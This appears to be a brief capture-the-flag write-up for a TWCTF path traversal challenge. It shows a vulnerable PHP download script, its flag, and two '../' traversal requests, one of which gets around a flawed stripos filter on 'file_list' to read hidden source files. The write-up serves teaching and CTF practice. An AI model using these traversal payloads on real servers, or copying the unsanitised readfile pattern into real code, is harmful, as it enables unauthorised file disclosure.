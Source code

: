 Vulnerability : download.php?f=951470281beb8a490a941ac73bd10953

**1- Download "download.php" **
download.php?f=../download.php
```php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
```
**2- Read "file_list.php" **

download.php?f=file_list../../file_list.php


